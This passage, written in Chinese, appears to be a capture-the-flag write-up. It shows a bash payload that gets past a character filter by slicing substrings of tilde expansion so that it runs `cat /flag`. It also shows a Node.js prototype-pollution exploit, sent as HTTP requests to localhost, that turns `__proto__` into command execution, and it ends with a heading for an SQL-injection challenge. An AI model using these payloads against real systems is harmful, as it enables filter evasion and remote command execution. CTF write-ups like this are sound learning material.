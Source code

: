 思路是**活字印刷术**，以 `~` 扩展为突破口，然后用 `${parameter:offset:length}` 做活字印刷。

你把题目给的脚本改一下，然后用 hashcat 他们做的 `maskprocessor` 跑一下一下就能拿到可用字符集：

```bash
$ mp ?a | bash patched.sh
```

我构造的输入：

```bash
# 活字印刷：启动！
__=~
# __='/player'

# ___=`ls /`
___=`${__:2:1}${__:7:1} ${__::1}`

# ____=`ls /bin` 用来拿 cat（懒得找 cat 的偏移了，于是活字印刷算了）
____=`${__:2:1}${__:7:1} ${__::1}${___::3}`

# cat /flag
${___:15:1}${__:3:1}${___:14:1} ${__::1}${___:17:4}
```

## Node.js is Web Scale

盲猜 `__prototype__` 但是实际上是 `__proto__`。
原型污染：

1. 设置 `__proto__.nonexists`
2. 执行 `noexists`

首先看了下 /flag 权限，再看了下自己，突然想到大家都能阅读的来着 (`r--r--r--`)，那就简单了：

```http
POST http://localhost:3000/set
Content-Type: application/json

{"key": "__proto__.exploit","value": "cat /flag"}

###

GET http://localhost:3000/execute?cmd=exploit
```

利用原型机制：`cmds` 不存在的属性就会访问原型 `__proto__`；第一步利用 `/set` 接口污染之。

（当然搭建环境加调试代码试了下）

## PaoluGPT

### 千里挑一

年轻人的第一次成功的白盒 SQL 注入
